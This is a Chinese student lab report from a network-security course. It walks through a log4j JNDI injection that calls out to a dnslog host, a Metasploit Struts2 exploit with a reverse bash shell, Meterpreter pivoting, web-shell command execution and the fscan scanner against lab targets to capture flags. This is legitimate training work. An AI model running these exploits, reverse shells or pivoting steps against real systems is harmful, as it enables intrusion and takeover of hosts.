








# 实验报告

此内容为lillian-wang512，liu-jing-yao0526，cucyangyueyuestudent三人共同完成


## 【实验目的】

#### 基础团队实践训练

团队分工跟练复现完成 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 。无论团队由多少人所组成，以下按本次实践训练所涉及到的人员能力集合划分了以下团队角色。一人至少承担一种团队角色，老师将按照该角色的评价标准进行 `基于客观事实的主观评价` 。

- [x] 红队：需完成漏洞存在性验证和漏洞利用。
- [ ] 蓝队威胁监测：漏洞利用的持续检测和威胁识别与报告。
- [x] 蓝队威胁处置：漏洞利用的缓解和漏洞修复。

上述能力的基本评分原则参考“道术器”原则：最基础要求是能够跟练并复现 [网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/) 中演示实验使用到的工具；进阶标准是能够使用课程视频中 **未使用** 的工具或使用编程自动化、甚至是智能化的方式完成漏洞攻击或漏洞利用行为识别与处置。


## 【实验环境】

- VMware Workstation Pro
- virtual box 
- 两台kali


## 【实验步骤】

### 一、单个独立漏洞验证和利用（ log4j2 CVE-2021-44228）

#### 1.环境配置

（1）下载ctf-games，启动相关服务

```shell
# 一次获取所有文件（包括所有子模块管理的文件）
git clone https://github.com/c4pr1c3/ctf-games.git --recursive
cd ctf-games
# （可选）单独更新子模块
git submodule init && git submodule update
# 启动 webgoat 系列服务
cd owasp/webgoat/ && docker-compose up -d
# 启动 juice-shop 及 shake-logger 服务
cd ../../owasp/juice-shop/ && docker-compose up -d
```




（2）添加 vulfocus 的 docker-compose 编排封装

```shell
# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
sudo apt update && sudo apt install -y docker.io docker-compose jq
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}
```


（3）设置docker的镜像源方便后续下载

```shell
# 切换到 root 用户
sudo su -
# 使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
"registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF
# 重启 docker 守护进程
systemctl restart docker
# 提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest
```


#### 2.漏洞存在性验证

```bash
cd ctf-games/fofapro/vulfocus
#cd到start.sh存在的目录下
sudo su 
#需要使用管理员权限
bash start.sh
#启动第一个docker
```




然后就可以利用IP访问vulfocus


利用用户名和密码admit登入vulfocus


在镜像管理里面搜索寻找log4j2 CVE-2021-44228漏洞并进行下载


在首页可以找到我们下载的漏洞程序


启动漏洞可以得到漏洞的访问地址(由于访问时间有限制，所以接口会隔一段时间变化，所以后文截到的接口也会有所不同)


启动后会得到新的端口，进入后可得新的界面


#### 3.源代码审计

```bash
#进入容器
$ docker exec -it optimistic_blackwell bash

#查看目录
$ ls

# docker cp <容器名称或ID>:<容器内⽂件路径> <宿主机⽬标路径>
sudo docker cp optimistic_blackwell:/demo/demo.jar ./
```

查看到容器目录下有 demo.jar 文件，拉取到容器的宿主机



关闭防火墙

```bash
#关闭防火墙
$ sudo ufw disable 
```


利用WINSCP将jar包传输到本机


进行反编译


#### 4.漏洞可利用性验证

使用DNS下发网站：http://www.dnslog.cn/来获取注入的DNS


利用url编码转换器将要注入的payload转换成url形式



利用下面的命令进行jndi注入

```bash
curl -X GET http://192.168.76.128:9460/hello?payload=$%7Bjndi:ldap://sbhd8t.dnslog.cn/exp%7%0A
```


注入成功后可以在DNS网站检测到有结果反馈


然后传输给蓝队，蓝队进行漏洞利用评估得到flag


### 二、场景化漏洞攻击

> 以**跨网段渗透**(常见的`dmz`)为例

使用畅课平台上同学提供的手搓DMZ包进行环境编排，并进行修改，即打包的场景中位于内网的2层主机应该设置为不对外开放（对外开放由“true”改为“false”）,如果不进行设置的话启动环境会出现所有容器的访问链接（端口），即不能直接看出第一层主机的端口


下载并发布就能使用该场景，下载后会发现首页新增许多镜像


#### 1.捕获指定容器的上下行流量

为后续的攻击过程「分析取证」保存流量数据

```bash
# 建议放到 tmux 会话，然后放到后台运行
$ docker ps # 先查看目标容器名称或ID
$ container_name="<替换为目标容器名称或ID>"
$ docker run --rm --net=container:${container_name} -v {PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


然后就可以利用该端口得到可能的漏洞界面




#### 2.外层网络渗透:攻破靶标 1

切换到攻击者主机 attacker 进行 metasploit 基础配置

```bash
# metasploit 基础配置
# 更新 metasploit
$sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
$sudo msfdb init
```


```bash
# 启动 msfconsole
$msfconsole
```



```bash
# 确认已连接 pgsql
$db_status

# 建立工作区
$ workspace -a demo

# 查看工作区
$ workspace -l
```


要收集服务识别与版本等信息，不断搜索并且完善关键词，最后找到我们所需的 **exp**：`exploit/multi/http/struts2_multi_eval_ognl`

```bash
# search exp in metasploit
$ search struts2 type:exploit

# 查看 exp 详情
# 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
$ info <结果编号或 Name 字段>

# 继续完善搜索关键词
$ search S2-059 type:exploit
```


找到我们所需的 exp 后就选择使用，并且选择设置合适的 exp payload

```bash
# 使用符合条件的 exp
$ use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
$ show payloads

# 使用合适的 exp payload
$ set payload payload/cmd/unix/reverse_bash
```


查看并且配置 exp 参数，确保所有 `Required=yes` 参数均正确配置

```bash
# 查看 exp 可配置参数列表
$ show options
```


```bash
# 靶机 IP
$ set RHOSTS 192.168.56.102

# 靶机目标端口
$ set rport 29669

# 攻击者主机 IP
$ set LHOST  192.168.142.255 

# 再次检查 exp 配置参数列表
$ show options
```


接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```

#### 3.中层网络渗透:攻破靶标 2-4

首先是将已经获得的1号会话即外层主机shell升级为`meterpreter`，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions
Active sessions
===============
  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.76.128:4433
[*] Sending stage (1017704 bytes) to 192.168.0.106
[*] Meterpreter session 2 opened (192.168.76.128:4433 -> 192.168.0.106:60687) at 2023-07-27 01:44:37 -0400
[*] Command stager progress: 100.00% (467/467 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============
  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以查看外层主机的网卡信息并获得了一个新的内网网段192.172.84.0/24


还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到 post/multi/manage/autoroute 模块，只需要将会话ID填入即可， 之后运行便会自动添加路由信息到Metasploit的路由表中，之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP 地址，可以让端口扫描更快速更高效，这里选择使用模块 post/multi/gather/ping_sweep ，填入必要的options之后就可以进行扫描了：

```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep

Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.84.5-254
rhosts => 192.172.84.5-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.84.5-254
[+]     192.172.84.5 host found
[+]     192.172.84.3 host found
[+]     192.172.84.4 host found
[+]     192.172.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`

```bash
# get flag2-4
$ sessions -c "ls /tmp" -i 6,7,8
```

```bash
得到flag2-4:
flag-{bmh76fd8ddc-29fc-45d6-5d6d-8bba0ffc10df}
flag-{bmh36f772a9-90ba-455d-66d0-58dfce9a001a}
```

#### 4.内层网络渗透:攻破靶标 5

升级会话和找到连接内层网络的跳板主机，使用`jobs -l`确认后台执行完成后3个会话都升级到了`meterpreter`

```bash
Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...
```

接下来，需要对中层网络中的三个主机逐一进行检索和判断是否拥有双网卡，从而利用成为跳板机来访问到内层网络的靶机

```bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:68768 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.172.84.4  192.168.76.128:4433 -> 192.168.0.106:60687 (172.29.108.146)
  3         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60640 (192.172.84.2)
  4         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60630 (192.172.84.3)
  5         shell cmd/unix                              192.168.76.128:4444 -> 192.168.0.106:60763 (192.172.84.5)
  6         meterpreter x86/linux  root @ 192.172.84.2  192.168.76.128:4433 -> 192.168.0.106:60854 (192.172.84.2)
  7         meterpreter x86/linux  root @ 192.172.84.3  192.168.76.128:4433 -> 192.168.0.106:60722 (192.172.84.3)
  8         meterpreter x86/linux  root @ 192.173.85.3  192.168.76.128:4433 -> 192.168.0.106:60632 (192.172.84.5)
```

6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到`msfconsole`执行`autoroute`的模块添加通过8号会话的路由转发规则，此时就可以直接在`msfconsole`通过`ping_sweep`和`portscan/tcp`来直接进行扫描

通过网卡、路由、ARP 成功发现最深层次的内网 `192.172.85.0/24`

```bash
# 通过网卡、路由、ARP 发现新子网 192.173.85.0/24
$ sessions -c "ifconfig" -i 6,7,8

# portscan through pivot
# 将会话 8 （IP地址为192.172.84.5）升级为 meterpreter shell
$ sessions -u 8

# 新的 meterpreter shell 会话编号此处为 10
$ sessions -i 10
```

可以直接在 meterpreter shell 中直接访问 IP 地址来进行枚举测试

```bash
# 利用跳板机 192.172.84.5 的 meterpreter shell 会话「踩点」最终靶标
$ curl http://192.173.85.2

# 发现没安装 curl ，试试 wget
$ wget http://192.173.85.2

# 发现没有命令执行回显，试试组合命令
$ wget http://192.173.85.2 -O /tmp/result && cat /tmp/result
```


得到输出结果，并且提示我们需要通过 `index.php?cmd=ls /tmp` 的方式执行，最后成功得到 `flag5`

```bash
# 发现 get flag 提示
$ wget 'http://192.173.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result"
```

```
得到flag5:
flag-{bmhd4c8d966-2dcf-43dc-64a8-42ff2a3f7a6c}
```


至此，整个DMZ主机环境的Flag从外层到中层再到内层均已攻破


### 三、智能化漏洞威胁监测、漏洞攻击和缓解修复

#### 1.异常流量检测与防护

使用 Docker 的网络命名空间和网络抓包工具来捕获和分析流量

获取容器的 PID 2901（进程ID）

```bash
# 查看容器运⾏情况
docker ps

docker inspect -f '{{.State.Pid}}' <container_name>
# 请将 <container_name> 替换为要监视流量的容器的名称
```


使用 nsenter 命令进入容器的网络命名空间，并使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量，能够在容器的 eth0 网络接口上捕获流量，并将结果保存到 captured_traffic.pcap 文件 中

```bash
nsenter -t <container_pid> -n
# 将 <container_pid> 替换为上⼀步中获取到的容器 PID

tcpdump -i eth0 -w captured_traffic.pcap
#使用网络抓包工具（如 tcpdump 或 tshark ）来捕获和分析流量
```


在 catch.pcap 文件中可以查看到所有访问到容器的流量,可以查看到疑似远程代码执行的攻击流量


#### 2.智能化漏洞扫描和攻击工具:Fscan

Fscan:(https://github.com/shadow1ng/fscan)一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

Fscan使用Go语言编写，git clone下来后，需要编译成可执行程序后使用

```go
go build -ldflags="-s -w " -trimpath main.go
```

工具中提供了多个功能模块：

##### 1.信息搜集:

- 存活探测(icmp)
- 端口扫描

##### 2.爆破功能:

- 各类服务爆破(ssh、smb、rdp等)
- 数据库密码爆破(mysql、mssql、redis、psql、oracle等)

##### 3.系统信息、漏洞扫描:

- netbios探测、域控识别
- 获取目标网卡信息
- 高危漏洞扫描(ms17010等)

##### 4.Web探测功能:

- webtitle探测
- web指纹识别(常见cms、oa框架等)
- web漏洞扫描(weblogic、st2等,支持xray的poc)

##### 5.漏洞利用:

- redis写公钥或写计划任务
- ssh命令执行
- ms17017利用(植入shellcode),如添加用户等

##### 6.其他功能:

- 文件保存

对靶机扫描：

我们直接调用相关参数，即可完整获取到靶机所有信息，该工具可以将该网卡中所有端口信息保存下来

```shell
main.exe -h 192.168.56.102/24
```


## 【实验中遇到的问题】

##### 1.jndi注入

在解决jndi注入问题过程中还使用了log4j-scan，最后在进行扫描的时候并没能成功，通过vim打开log4j-scan，添加了payload的字段运行依旧未果，遂放弃，也曾怀疑是未安装好jndi本地的相关环境，但是配置好相关环境后也一直无果


##### 2.POST和GET

jndi注入时POST和GET命令的替换，在使用POST命令时不能成功访问我们所构建起来的网址，只有改成GET后才能进行有效访问和注入，本来一直无法访问成功，打算使用其他方法比如Burpsuite等软件进行注入，已经下载安装并且找教程进行使用了，但后面突然想到GET和POST都有访问网址作用，于是转用GET进行处理，并对jndi注入部分进行url编码，然后成功得到页面的ok内容。

之所以发现是因为我尝试着tcping 、GET，以及POST  www.baidu.com，发现是可以得到想要的结果的，但是POST自己虚拟机的网址就出现报错，又因为Burpsuite软件走不是很通，后来找到使用GET也可以这条路就去使用了GET。


##### 3.dmz

场景商店无法下载使用dmz，然后发现徐岩自己搭建了该场景并且无私地让同学们使用，感谢他[畅课评论区链接](http://courses.cuc.edu.cn/course/109860/forum?show_sidebar=false#/topics/457749)




##### 4.配置java环境

由于小组成员均未选修过java相关课程，因此第一次配置环境，为了后续分析jar包（一开始打不开jar包，我是用的android studio进行查看的，发现了问题所在），后来用正规软件进行分析。



##### 5.docker扩容

在使用docker的过程中遇到了docker容量不够需要扩容的情况


##### 6.docker拉取镜像报错

详情参考[docker拉取镜像报错](https://blog.csdn.net/qq_47354826/article/details/129090363)

##### 7.BurpSuiteCommunity

尝试过用BurpSuiteCommunity进行jndi注入和网页分析，但是不知道为何不成功，配置了浏览器和电脑代理也不成功，于是后来就选择走上GET这条道路。


## 【个人总结】

本人与其他两位同学共同完成了红队：需完成漏洞存在性验证和漏洞利用以及蓝队威胁处置：漏洞利用的缓解和漏洞修复环节。

中间遭遇了很多波折，比如在使用docker的过程中遇到了docker容量不够需要扩容的情况，遇到打不开文件或者命令不成功的情况，以及有几天vulfocus加载特别慢导致环境搭建和镜像下载不下来的情况，幸亏最后有惊无险的完成了。

经过这次实验，我对于网络安全中相关的攻击方式、攻击手段和流程都进行了模拟和实践，同时也对防御方如何去应对攻击者多变复杂的攻击手段，如何去检测恶意行为和漏洞利用进行了实践模拟。对于《刑法》《网络产品安全漏洞管理规定》《网络空间安全法》也有了更深的了解。同时也体会到了团队合作的重要性，对于网安专业更加热爱。


## 【参考资料】

[网络安全综合实验：开源信息系统搭建、加固与漏洞攻防课件](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E7%BB%BC%E5%90%88%E5%AE%9E%E9%AA%8C%E5%BC%80%E6%BA%90%E4%BF%A1%E6%81%AF%E7%B3%BB%E7%BB%9F%E6%90%AD%E5%BB%BA%E5%8A%A0%E5%9B%BA%E4%B8%8E%E6%BC%8F%E6%B4%9E%E6%94%BB%E9%98%B2)

[传媒网安教学 Wiki](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)

[网络安全(2021) 综合实验](https://www.bilibili.com/video/BV1p3411x7da/?wxfid=o7omF0RFgC-EhjhFVGU-bMY8u-_0&vd_source=afe64fd82a538cddd1f05576e7a8dcd9)

